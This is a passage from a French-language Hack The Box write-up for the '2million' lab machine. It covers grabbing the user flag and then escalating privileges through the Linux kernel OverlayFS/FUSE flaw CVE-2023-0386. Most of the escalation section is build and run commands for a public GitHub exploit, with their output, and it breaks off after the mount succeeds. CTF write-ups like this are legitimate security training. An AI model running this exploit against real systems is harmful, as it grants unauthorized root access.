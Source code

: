 ```bash
user.txt
admin@2million:~$ cat user.txt 
1489.....d42e
```

## Privilege Escalation

### Mails : /var/mail/admin
Avec **linpeas**, on observe que admin a des mails à lire dans **/var/mail/admin**. Ce mail indique qu'une vulnérabilité du kernel linux "OverlayFS / FUSE" semble exploitable.
```bash
cat /var/mail/admin
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather
```

### CVE-2023-0386 : Kernel Exploit

Sur internet, on trouve la `CVE-2023-0386` avec un repo github
> https://github.com/xkaneiki/CVE-2023-0386/tree/main

On execute l'exploit:
- dans un premier terminal on fait:
```bash
$ make all
$ ./fuse ./ovlcap/lower ./gc
[+] len of gc: 0x3ee0
mkdir: File exists
[+] readdir
[+] getattr_callback
/file
[+] open_callback
/file
[+] read buf callback
offset 0
size 16384
path /file
[+] open_callback
/file
[+] open_callback
/file
[+] ioctl callback
path /file
cmd 0x80086601
```
- Dans un deuxième terminal, on execute finalement un deuxième binaire pour obtenir les droits root:
```bash
./exp
uid:1000 gid:1000
[+] mount success
```